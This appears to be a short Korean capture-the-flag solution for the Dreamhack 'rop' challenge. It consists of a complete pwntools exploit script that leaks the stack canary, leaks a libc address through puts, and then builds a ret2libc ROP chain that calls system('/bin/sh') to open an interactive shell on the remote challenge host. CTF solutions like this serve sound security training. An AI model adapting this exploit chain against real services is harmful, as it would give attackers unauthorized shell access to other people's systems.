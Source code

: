  

**코드 (**./ROP/rop 로 ROP 디렉토리에서 실행함)

```python
from pwn import *

p = remote('host3.dreamhack.games',11290)
e = ELF('./ROP/rop')
libc = ELF('./ROP/libc.so.6')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

buf =  b'A'*0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8

pop_rdi = 0x400853
puts_plt = e.plt['puts']
puts_got = e.got['puts']
main_addr = e.symbols['main']

payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendlineafter(b'Buf: ', payload)
leaked_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
slog('leaked puts', leaked_puts)

libc_base = leaked_puts - libc.symbols['puts']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

ret = 0x400596

payload  = b'A'*0x38 + p64(cnry) + b'B'*8

payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.sendlineafter(b'Buf: ', payload)

p.interactive()
```
